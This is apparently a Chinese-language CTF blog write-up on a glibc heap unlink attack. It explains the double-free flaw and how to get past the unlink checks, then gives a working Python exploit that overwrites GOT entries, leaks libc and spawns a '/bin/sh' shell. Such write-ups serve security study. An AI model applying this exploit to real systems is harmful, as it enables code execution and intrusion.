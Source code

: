 ```yaml
---
title: heap unlink
data:2018-08-06
tag: pwn
layout: post
---
```

[bin](https://github.com/void0red/code/blob/master/task/2018_07_30/first)地址

### 0x00问题所在

1. free后的堆指针没用置空
2. free没有对flag进行判断是否已经free过了

### 0x01unlink

- 发生在free一个chunk，发现相邻的chunk处于free状态，从bin双链表取出来的时候，合并至少两个free chunk。前一个chunk的状态通过`p->presize`的最低位来判断，后一个chunk的状态通过`(p+p->size+(p+size)->size)->presize`的最低位来判断。

- unlink的检查：

  - `p->fd->bk == p && p->bk->fd == p` 

    绕过：寻找`*ptr == p`

  - `((p+p->size)->presize)&0x1 == 0 && ((p+p->size)->preseize) == p->size`

    绕过：覆盖nextchunk的presize

- unlink

  ```c
  //定义:
  FD = p->fd;
  BK = p->bk;
  FD->bk = BK;
  BK->fd = FD;
  //方法：
  p->fd = ptr-0x8*3;
  p->bk = ptr-0x8*2;
  //效果：
  *ptr = p->fd;
  //*ptr = ptr-0x8*3
  ```

### 0x02分析

- 堆指针依次保存在`0x6020e0` 中，记为`list`

  ```c
  unsigned long int list;
  list[i*2] = chunkp;
  list[i*2+1] = flag;
  ```


- 利用`unlink`篡改堆指针，因为构造一次`unlink`只能修改`ptr`处的值，而且`ptr`必需保存`unlink`对象堆的指针，所以尽量把他修改为保存堆指针`list`中的某处地址，然后伪造list中的数据，再利用edit，修改list中伪造地址的数据
- 构造`unlink`的`fd, bk`，要使`ptr-0x8*3`落在`list`地址的范围，同时`ptr`还要保存`unlink`对象堆地址，也就是list[i*2]，取`ptr == list+0x18+0x8 == list[4]`，即`unlink(chunk2)`，配合`unlink`还需要一个相邻的堆，所以考虑先获得两个堆的指针。

### 0x03 利用

- 首先申请两个0x100的堆再释放，目的是保存两个堆的指针，接着申请0x100*2+0x10(chunk header size)的堆，这个堆应该填充在先前释放的两个堆的位置。

  ![](https://raw.githubusercontent.com/void0red/Pictures/master/blog/unlink0.png)

- 然后free后面一个实际上不存在，但是有个残留指针的堆，触发前一个堆的`unlink`， 导致`*ptr == list[2]`修改为`ptr-0x8*3 == list+0x18+0x8-0x8*3 == list[1]`即chunk1的flag处。

- 利用edit(chunk2)修改`list`的数据，从chunk1的flag处开始，修改`list[2] = free@got; list[4] = read@got`

- 利用edit(chunk1)修改`free`函数地址为`puts`函数地址，然后free(chunk2)就会打印`read`函数的地址

- 利用动态链接库计算`system`函数的地址，并用edit(chun1)修改`free(puts)`函数地址为`puts`函数地址

- 任意申请一个堆存入`/bin/sh\x00`，调用free即触发`system`

### 0x04code

```python
# use to save two pointers in list, not fastbin
create(2, 0x100, 'a')
create(1, 0x100, 'a')

delete(2)
delete(1)

list_addr = 0x6020e0

# p_addr also set to list[4](save index2's pointer)
p_addr = list_addr + 0x18 + 0x8
# size = 0x100+0x100+0x10(chunk1 header)
# fake data(low addr --> high addr): chunk0p->(presize, size&inuse, fd, bk, data), chunk1p->(presize, size&inuse)
# keep: [1]p->fd->bk == p->bk->fd == p, [2]p->size == (p+size)->presize
create(2, 0x210, p64(0)+p64(0x101)+p64(p_addr-0x18)+p64(p_addr-0x10)+'a'*(0x100-0x20)+p64(0x100)+p64(0x210-0x100))

# when free chunk1, inuse bit is `0`, than unlink chunk0, p->fd->bk = p->bk, p->bk->fd = p->fd
# *p_addr = p->fd = p_addr-0x18 = list_addr+0x8
delete(1)

# fake data: index0_flag, index1p, index1_flag, index2p, index2_flag
edit(2, p64(0)+p64(elf.got['free'])+p64(1)+p64(elf.got['read'])+p64(1))


# change free to puts
edit(1, p64(elf.symbols['puts']))

# puts(&list[4]) == puts(free@got)
delete(2)

read_addr = u64(p.recv(6) + '\x00'*2)
system_addr = libc.symbols['system'] - libc.symbols['read'] + read_addr

# change puts to system
edit(1, p64(system_addr))

create(3, 0x20, '/bin/sh')

# system('/bin/sh')
delete(3)
p.interactive()
```

